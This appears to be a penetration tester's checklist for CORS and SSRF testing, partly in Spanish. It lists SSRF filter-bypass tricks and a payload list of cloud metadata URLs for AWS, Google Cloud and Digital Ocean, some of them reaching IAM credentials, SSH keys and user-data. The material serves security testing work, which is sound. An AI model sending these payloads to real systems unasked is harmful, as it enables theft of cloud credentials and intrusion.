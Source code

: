 # CORS
- [ ]  Errors parsing Origin headers
- [ ]  Whitelisted null origin value

# SSRF
- [ ]  Try basic localhost payloads
- [ ]  Bypassing via open redirection

Evadiendo filtros
- [ ]  Bypass using HTTPS
- [ ]  Bypass with [::]
- [ ]  Bypass with a domain redirection
- [ ]  Bypass using a decimal IP location
- [ ]  Bypass using IPv6/IPv4 Address Embedding
- [ ]  Bypass using malformed urls
- [ ]  Bypass using rare address(short-hand IP addresses by dropping the zeros)
- [ ]  Bypass using enclosed alphanumerics

Instancias Cloud
AWS
```markup
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document
```

Google Cloud
```markup
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Digital Ocean
```markup
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```
